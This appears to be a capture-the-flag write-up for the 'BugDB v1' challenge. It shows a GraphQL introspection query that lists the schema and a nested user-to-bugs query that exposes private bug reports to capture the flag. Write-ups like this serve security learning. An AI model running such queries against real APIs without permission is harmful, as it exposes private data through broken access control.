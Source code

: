 BugDB v1

# BugDB v1
# Flags = 1



![bugdbv1.png](../_resources/80b3300aa7c44620931c8bd6d7aa1893.png)


# Flag 0



![1.png](../_resources/09e2c0d4f9134e17b3e0c46b609bc5fc.png)





Having no experince in graphql I started by finding out what graphql was.
 > GraphQL is a query language for APIs and a runtime for fulfilling those queries with your existing data. GraphQL provides a complete and understandable description of the data in your API, gives clients the power to ask for exactly what they need and nothing more, makes it easier to evolve APIs over time, and enables powerful developer tools.

Since I didn't know what fields are present I used the below query to get all the types and fields together using introspection





```
{
  __schema {
    types {
      name
      fields {
        name
        description
      }
    }
  }
}
```

This resulted in

![2.png](../_resources/7bd1ebda01e5411e81cbcdbe8f861ada.png)


After tinkering and googling I made a query that gave me the correct flag
```
query{
  user {
    edges {
      node {
        id
        username
        bugs {
          pageInfo {
            startCursor
            endCursor
          }
          edges {
            cursor
            node {
              id
              reporterId
              text
              private
              reporter {
                id
              }
            }
          }
        }
      }
    }
  }
}
```



![flag.png](../_resources/12b45a1f14d64a74a4e07e80470f7fc3.png)





